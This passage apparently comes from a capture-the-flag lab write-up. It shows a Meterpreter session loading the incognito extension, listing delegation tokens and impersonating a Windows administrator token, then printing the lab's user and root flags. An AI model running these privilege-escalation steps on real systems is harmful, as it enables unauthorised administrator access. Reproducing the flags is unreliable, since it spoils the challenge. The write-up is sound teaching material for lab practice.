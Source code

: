 We got our shell, it's time to use `incognito` to impersonate the administrator token:

```
meterpreter > load incognito
Loading extension incognito...Success.
```

Now, we need to list all available tokens:

```
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
WIN-8VMBKF3G815\Admin
Window Manager\DWM-1

Impersonation Tokens Available
========================================
No tokens available
```

We need to impersonate the `WIN-8VMBKF3G815\Admin` one, since this is the real administrator:

```
meterpreter > impersonate_token "WIN-8VMBKF3G815\Admin"
[+] Delegation token available
[+] Successfully impersonated user WIN-8VMBKF3G815\Admin
```

![Pasted image 20250718171357.png](../../IMAGES/Pasted%20image%2020250718171357.png)

With the token impersonated, we can finally read the root flag and end the CTF:

```
PS C:\Users\Administrator\Desktop> type C:\Users\Administrator\Desktop\user.txt
thm{09b408056a13fc222f33e6e4cf599f8c}

E:\xampp\htdocs\internal>type C:\Users\Admin\Desktop\root.txt
thm{a1f936a086b367761cc4e7dd6cd2e2bd}
```

